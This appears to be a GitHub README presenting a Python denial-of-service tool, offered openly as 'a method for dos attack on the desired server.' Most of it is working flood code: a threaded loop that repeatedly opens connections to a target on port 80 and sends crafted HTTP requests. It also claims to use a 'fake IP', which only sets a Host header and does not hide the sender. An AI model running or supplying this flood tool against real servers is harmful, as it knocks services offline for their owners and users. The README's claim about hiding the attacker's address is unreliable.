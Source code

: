 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍
```
import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()
```
```
while True:
    thread = threading.Thread(target=attack)
    thread.start()
```

# Don't be disappointed

